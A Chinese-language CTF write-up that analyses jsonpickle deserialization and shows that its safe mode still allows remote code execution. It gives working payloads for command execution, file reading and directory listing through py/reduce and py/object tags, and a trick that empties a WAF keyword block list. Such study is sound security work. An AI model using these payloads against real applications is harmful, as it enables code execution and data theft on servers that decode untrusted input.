# 基于 NEPCTF 2025 JsonPickle Safe 模式反序列化与 WAF 绕过分析


前段时间 NepCTF 2025 一道 Web 题中考察了 JsonPickle 反序列化及 WAF 绕过的技巧
关键代码段如下

```
FORBIDDEN = ['builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt','code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal','socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\\\\\\\', 'posix','render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state','import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json','file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid','__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc','__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__']

def waf(serialized):
    try:
        data = json.loads(serialized)
        payload = json.dumps(data, ensure_ascii=False)
        for bad in FORBIDDEN:
            if bad in payload:
                return bad
        return None
    except:
        return "error"

@app.route('/panel')
def panel():
    token = request.cookies.get("authz")
	...
    ban = waf(decoded)
    try:
        sess_obj = jsonpickle.decode(decoded, safe=True)
        ...
        return render_template('admin_panel.html')
    except Exception as e:
        return render_template('error.html', error="数据解码失败。")
```
过滤了很多关键字，为了绕过，接下来深入探讨 jsonpickle 反序列化机制。
# JsonPIckle
`jsonpickle` 是一个 Python 库，用于将复杂的 Python 对象序列化到 JSON 或从 JSON 反序列化。用于将 Python 编码为 JSON 的标准 Python 库，例如 stdlib 的 json 和 simplejson 只能处理具有直接 JSON 等效项的 Python 原语（例如 dicts、lists、strings、ints 等）。
jsonpickle 建立在这些库之上，并允许将更复杂的数据结构序列化为 JSON。其是高度可配置和可扩展的——允许用户选择 JSON 后端并添加其他后端。

在官方文档中开头就明确警告标明，jsonpickle 模块并不安全 (:笑


## 反序列化流程分析
jsonpickle 库中提供了用于将 JSON 字符串转换为 Python 对象的方法 jsonpickle.decode()。下面我写了一段 demo，用于调试代码
```
import jsonpickle  

class Person:
    def __init__(self, name, age):
        self.name = name
        self.age = age

class Evil(object):  
    def __reduce__(self):  
        return (__import__('os').system, ('whoami',))  

p = Person("Alice", 30)
print("Person: ", jsonpickle.encode(p))
e = Evil()
print("Evil: ", jsonpickle.encode(e))
# Person:  {"py/object": "__main__.Person", "name": "Alice", "age": 30}
# Evil:  {"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["whoami"]}]}
```
已知 jsonpickle.decode 会反序列化 JSON 字符串，也就是当反序列化 Evil 实例化对象序列化后的字符串时，会触发 `__reduce__()` 魔术方法去命令执行，那么假如将 evil 插入到 person 中呢？反序列化是对整段字符串都进行，且肯定是有写遍历的，我认为这样同样也是可以被正常触发的
```
{"py/object": "__main__.Person", "name": {"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["whoami"]}]}, "age": 30}
```
接下来调试程序，看看反序列化的流程
程序刚进去，是进了 site-packages\jsonpickle\unpickler.py::decode() 方法内

看一下这个方法，前面主要在获取和处理传入的参数，如果我们传入的本身就是标准的 JSON，那么就不会有影响
```
def decode():
    # 如果 on_missing 是字符串，则转为小写
    if isinstance(on_missing, str):
        on_missing = on_missing.lower()
    # 否则如果不是函数类型，发出警告
    elif not util.is_function(on_missing):
        warnings.warn(
            "Unpickler.on_missing must be a string or a function! It will be ignored!"
        )

    # 如果 backend 为空则默认使用 json 库
    backend = backend or json

    # 如果 context 未提供，则初始化一个 Unpickler 上下文
    context = context or Unpickler(
        keys=keys,
        backend=backend,
        safe=safe,
        v1_decode=v1_decode,
        on_missing=on_missing,
    )

    # 使用 backend 解码传入的 JSON 字符串为原始数据对象
    data = backend.decode(string)
		  =>
			def decode(self, string):
			    """
			    从 JSON 字符串中尝试解码对象。
			    会按顺序尝试多个后端解析器，直到成功或抛出最后一个异常。
			    """
			    self._verify()  # 校验 backend 配置是否正常
			
			    # 如果不允许多 backend fallback，直接用首选 backend 解码
			    if not self._fallthrough:
			        name = self._backend_names[0]
			        return self.backend_decode(name, string)
			
			    # 否则尝试每一个注册的 backend，直到成功或最后一个失败
			    for idx, name in enumerate(self._backend_names):
			        try:
			            return self.backend_decode(name, string)
			        except self._decoder_exceptions[name] as e:
			            # 最后一个 backend 失败时抛出异常，否则继续尝试下一个
			            if idx == len(self._backend_names) - 1:
			                raise e
			            else:
			                pass  # 继续下一个解析器

    # 通过 context（Unpickler）恢复对象（可能涉及反序列化、自定义 class 映射等）
    return context.restore(data, reset=reset, classes=classes)
```
跟进 unpickler.py::restore() 方法，如果 reset 为 True，则对 _namedict、_namestack、_obj_to_idx、_objs、_proxies、_classes 等属性替换为空；`register_classes()` 方法功能是批量或单个注册类到内部 _classes 映射表中，都不影响运行
```
def restore(self, obj, reset=True, classes=None):
        if reset:
            self.reset()
        if classes:
            self.register_classes(classes)
        value = self._restore(obj)
        if reset:
            self._swap_proxies()
        return value
```
接着跟进  `_restore`，这是整段反序列化的关键部分。首先是传入的 obj 不属于字符串、列表、字典、集合、元组中任意一类，则直接返回结束程序；如果是，则调用 `unpickler.py::_restore_tags()`

`unpickler.py::_restore_tags()` 是对传入的标签进行处理，看下图，发现 targs 属性中存储着很多这种格式的标签 py/*。再看一下之前序列化出来的字符串 `{"py/object": "__main__.Person", "name": "Alice", "age": 30}`
原来这就是 jsonpickle 内部特定的标签，序列化则是将标签与对应的类型匹配形成一个 JSON 字符串。那具体是什么作用，还得继续往下看代码

阅读 `_restore_tags()` 代码发现，当程序匹配到 obj 中存在某个特定标签时，就会把这个标签所指代的对象直接返回。此时回到 `_restore()`，restore 是等于刚刚拿到的对象，如 py/object 则就是 _restore_object 对象，再执行 restore(obj)，就会去执行这个 `_restore_{tags}` 类!

```
def _restore_tags(self, obj):
        try:
            if not tags.RESERVED <= set(obj) and not type(obj) in (list, dict):
                def restore(x):
                    return x
                return restore
        except TypeError:
            pass
        if type(obj) is dict:
            if tags.TUPLE in obj:
                restore = self._restore_tuple
            elif tags.SET in obj:
                restore = self._restore_set
            elif tags.B64 in obj:
                restore = self._restore_base64
            elif tags.B85 in obj:
                restore = self._restore_base85
            elif tags.ID in obj:
                restore = self._restore_id
            elif tags.ITERATOR in obj:
                restore = self._restore_iterator
            elif tags.OBJECT in obj:
                restore = self._restore_object
            elif tags.TYPE in obj:
                restore = self._restore_type
            elif tags.REDUCE in obj:
                restore = self._restore_reduce
            elif tags.FUNCTION in obj:
                restore = self._restore_function
            elif tags.REPR in obj:  # Backwards compatibility
                restore = self._restore_repr
            else:
                restore = self._restore_dict
        elif util.is_list(obj):
            restore = self._restore_list
        else:

            def restore(x):
                return x

        return restore
```
所以标签的作用就是帮助标识序列化字典中的特殊数据结构或元信息，去调用指定的函数。
继续看代码，此时走到 `_restore_object()` 函数内

第二行 loadclass() 方法：一个获取类的功能，它会执行 `__import__(module)`，导入指定类并获取导入的类，将其作为传参返回

```
cls = loadclass(class_name, classes=self._classes)
	  =>
		def loadclass(module_and_name, classes=None):
			if classes:
				try:
					return classes[module_and_name]
				except KeyError:
					try:
						return classes[module_and_name.rsplit('.', 1)[-1]]
					except KeyError:
						pass
			names = module_and_name.split('.')
			for up_to in range(len(names) - 1, 0, -1):
				module = util.untranslate_module_name('.'.join(names[:up_to]))
				try:
					__import__(module)
					obj = sys.modules[module]
					for class_name in names[up_to:]:
						try:
							obj = getattr(obj, class_name)
						except AttributeError:
							continue
					return obj
				except (AttributeError, ImportError, ValueError):
					continue
			return None
```
当脚本反序列化时，使用某个类作为 JSON 字符串的主体，如下面程序使用 Person() 类的实例化，但是在程序中却没有 class 定义该类
```
import jsonpickle  

encoded_new = '{"py/object": "__main__.Person", "name": {"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["whoami"]}]}, "age": 30}'
jsonpickle.decode(encoded_new, safe=True)
```
那么程序就不会迭代去寻找内部的标签，而是在 unpickler.py_restore_object_instance() 735行抛出异常，缘由是程序会执行 `cls.__new__()` 实例化该类，却发现没有这个类

当补上该类后，cls.__new__() 就会正常实例化成功

最后走到 instance = self._restore_object_instance_variables(obj, instance)，跟进 _restore_object_instance_variables，再跟进 _restore_from_dict
迭代来了，这里 for 循环依次取出 k,v 对应字典中的键值，第一次是 `"py/object": "__main__.Person"`，当开头是标签时走进第一个 if，continue 直接跳过。
然后 for 循环取出下一对，即  "name": {"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["whoami"]}]}，键名为 "name"，不是 py/*  格式的标签名，一路走到 self_restore() 

跟进去，就是把子键值对再跑一遍

此时标签为 py/reduce，走到 _restore_reduce 函数内部，460行 reduce_val 使用 map 迭代器去迭代 'py/reduce' 键对应的值，将其交给 _restore 对象，其实就是又进行一次上面的操作

这里快进一下，可以看看指定的标签对应的两个函数
function 内容如其名，loadclass 上面已经分析过了，就是导入库获取导入的库并返回

```
def _restore_function(self, obj):
	return loadclass(obj[tags.FUNCTION], classes=self._classes)
```
_restore_tuple 函数作用是将数据结构还原为 Python 的原生 `tuple` 对象，并递归还原其中的所有元素。
```
def _restore_tuple(self, obj):
	return tuple([self._restore(v) for v in obj[tags.TUPLE]])
```
最后回到 `_restore_reduce，f, args, state, listitems, dictitems = reduce_val` 分别获取 reduce_val 列表中的值，然后走到 stage1 = `f(*args)`
这里 f 为上面获取到 os.system() 类方法，`*args 为 ('whoami',)`，所以 f(*args) 实际上就是 import os;os.system('whoami',)，这样就达成命令执行了

```
def _restore_reduce(self, obj):
        proxy = _Proxy()
        self._mkref(proxy)
        reduce_val = list(map(self._restore, obj[tags.REDUCE]))
        if len(reduce_val) < 5: 
            reduce_val.extend([None] * (5 - len(reduce_val)))
        f, args, state, listitems, dictitems = reduce_val

        if f == tags.NEWOBJ or getattr(f, '__name__', '') == '__newobj__':
            ...
        else:
            stage1 = f(*args)

        if state:
            try:
            except AttributeError:
                try:
                    ...
                    try:
                        ...
                    except Exception:
                        ...
        ...
```

反序列化流程分析到这里就结束了，可以看到通过 `__reduce__()` 反序列化魔术方法配合 import os;os.system 可以做到命令执行
至于 safe 模式，好像只有 _restore_repr() 方法有受到影响，开启 safe=True 时会 return None，loadrepr() 就不能被调用。reduce 之类的是不被管理的
```
def _restore_repr(self, obj):
        if self.safe:
            # eval() is not allowed in safe mode
            return None
        obj = loadrepr(obj[tags.REPR])
		      =>
				def loadrepr(reprstr):
				    """Returns an instance of the object from the object's repr() string.
				    It involves the dynamic specification of code.
				
    >>> 				obj = loadrepr('datetime/datetime.datetime.now()')
    >>> 				obj.__class__.__name__
				    'datetime'
				
				    """
				    module, evalstr = reprstr.split('/')
				    mylocals = locals()
				    localname = module
				    if '.' in localname:
				        localname = module.split('.', 1)[0]
				    mylocals[localname] = __import__(module)
				    return eval(evalstr)
				    
        return self._mkref(obj)
```

反序列化流程走完，知道 decode 基本上是怎么走的了，接下来就需要仔细看看标签，确定一下 Payload 能怎么写

## 标签解析
py/reduce、py/function 上面流程分析已经看到了，就不再分析一遍，
```
{"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["whoami"]}]}
```
### `py/object` 标签
_restore_object() 方法上面分析过，第二行调用 loadclass()，能够导入库返回库方法对象，比如传入 nt.system，会基于 tags.NEWARGSEX 识别传参，通过 split 分割为 ['nt','system']，先导入 nt 模块，然后取出 nt.system 方法并返回；随后会调用 _restore_object_instance
```
def _restore_object_instance(self, obj, cls, class_name=""):
	proxy = _Proxy()
	self._mkref(proxy)

	factory = self._loadfactory(obj)

	if has_tag(obj, tags.NEWARGSEX):
		args, kwargs = obj[tags.NEWARGSEX]
	else:
		args = getargs(obj, classes=self._classes)
		kwargs = {}
	if args:
		args = self._restore(args)
	if kwargs:
		kwargs = self._restore(kwargs)

	is_oldstyle = not (isinstance(cls, type) or getattr(cls, '__meta__', None))
	try:
		if (not is_oldstyle) and hasattr(cls, '__new__'):
			# new style classes
			if factory:
				instance = cls.__new__(cls, factory, *args, **kwargs)
				instance.default_factory = factory
			else:
				instance = cls.__new__(cls, *args, **kwargs)
		else:
			instance = object.__new__(cls)
	except TypeError:
	if is_oldstyle:
		try:
			instance = cls(*args)
		except TypeError:
			try:
			except Exception:
			...
	if isinstance(instance, tuple):
		return instance

	if _safe_hasattr(instance, 'default_factory') and isinstance(
	):
	...
	return instance
```
instance = cls(*args)，这和 py/reduce 一样也能达到命令执行的效果!
args 可以通过 tags.NEWARGSEX 属性赋值
```
if has_tag(obj, tags.NEWARGSEX):
		args, kwargs = obj[tags.NEWARGSEX]
else:
	args = getargs(obj, classes=self._classes)
	kwargs = {}
if args:
	args = self._restore(args)
if kwargs:
	kwargs = self._restore(kwargs)
```
也可以走入 else，通过 getargs 赋值，如果是 py/newargs、py/initargs 会 return obj[tags.newargs/initargs]
```
def getargs(obj, classes=None):
    if has_tag(obj, tags.NEWARGSEX):
        raise ValueError("__newargs_ex__ returns both args and kwargs")

    if has_tag(obj, tags.NEWARGS):
        return obj[tags.NEWARGS]

    if has_tag(obj, tags.INITARGS):
        return obj[tags.INITARGS]

    try:
        seq_list = obj[tags.SEQ]
        obj_dict = obj[tags.OBJECT]
    except KeyError:
        return []
    typeref = loadclass(obj_dict, classes=classes)
    if not typeref:
        return []
    if hasattr(typeref, '_fields'):
        if len(typeref._fields) == len(seq_list):
            return seq_list
    return []
```
所以 Payload 可以变为如下，注意 kwargs 必须为一个字典，否则会在 cls(*args) 抛出异常
```
{"py/object": "subprocess.run","py/newargsex": [["whoami"],{}]}
{"py/object": "subprocess.run","py/newargs":["whoami"]}
{"py/object": "subprocess.run","py/initargs":["whoami"]}
```
subprocess.run 可以替换为任意能够达到命令执行、文件读取等功能的函数

### `py/set、py/tuple` 标签
这两个标签功能都是帮助取出键值对，也能拿到需要的参数
```
def _restore_tuple(self, obj):
	return tuple([self._restore(v) for v in obj[tags.TUPLE]])

def _restore_set(self, obj):
	return {self._restore(v) for v in obj[tags.SET]}
```
Payload
```
{"py/reduce": [{"py/function": "subprocess.run"}, {"py/tuple": ["whoami"]}]}
{"py/reduce": [{"py/function": "subprocess.run"}, {"py/set": ["whoami"]}]}
```

### `py/type` 标签
py/type 也有 loadclass，传入 obj[tags.TYPE]，说明同样能够导入模块方法
```
def _restore_type(self, obj):
	typeref = loadclass(obj[tags.TYPE], classes=self._classes)
	if typeref is None:
		return obj
	return typeref
```
## WAF 绕过
**总结一下：**
	导入库：py/object、py/type、py/function
	获取参数：py/newargsex、py/newargs、py/initargs、py/tuple
	命令执行：py/reduce、py/object

列目录
```
{'py/object': 'glob.glob', 'py/newargs': {'/*'}}
{'py/object': 'os.listdir', 'py/newargs': ['/']}
```
读文件
```
{'py/object': 'linecache.getlines', 'py/newargs': ['/flag']}
```
RCE
```
{'py/object': 'subprocess.run', 'py/newargs': ['calc']}
{'py/object': 'subprocess.getoutput', 'py/newargs': ['calc']}
{'py/object': 'pickle.loads', 'py/newargs': [{'py/b64':'KGNvcwpzeXN0ZW0KUydiYXNoIC1jICJjYWxjIicKby4='}]}
{'py/object': 'timeit.main', 'py/newargs': [['-r', '1', '-n', '1', '__import__("os").system("calc")']]}
{'py/object': 'uuid._get_command_stdout', 'py/newargs': ['calc']}
{'py/object': 'pydoc.pipepager', 'py/newargs': ['a', 'calc']}
{"py/object":"builtins.bytes", "py/newargs":{"py/object": "builtins.map", "py/newargs" : [{"py/function": "builtins.exec"}, ["print(123)"]]}}
```
最后回顾一下之前的 FORBIDDEN
```
FORBIDDEN = ['builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt','code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal','socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\\\\\\\', 'posix','render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state','import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json','file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid','__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc','__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__']
```
初看 ban 了很多，但实际上标签只禁了 py/reduce、py/repr，还能使用 py/object 进行命令执行。最后一个骚操作，由于 FORBIDDEN 是一个列表，可以直接用 list.clear() 给它扬了
```
{"py/object": "__main__.Session", "meta": {"user": {"py/object":"__main__.FORBIDDEN.clear","py/newargs": []},"ts":1754463892}}
```

这样列表就被置空，Payload 随便用了

**参考：**
https://xz.aliyun.com/news/16133
https://xz.aliyun.com/news/16098
https://xz.aliyun.com/news/16041
https://www.cnblogs.com/LAMENTXU/articles/18799383


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/%E5%9F%BA%E4%BA%8E-nepctf-2025-jsonpickle-safe-%E6%A8%A1%E5%BC%8F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%8E-waf-%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/  

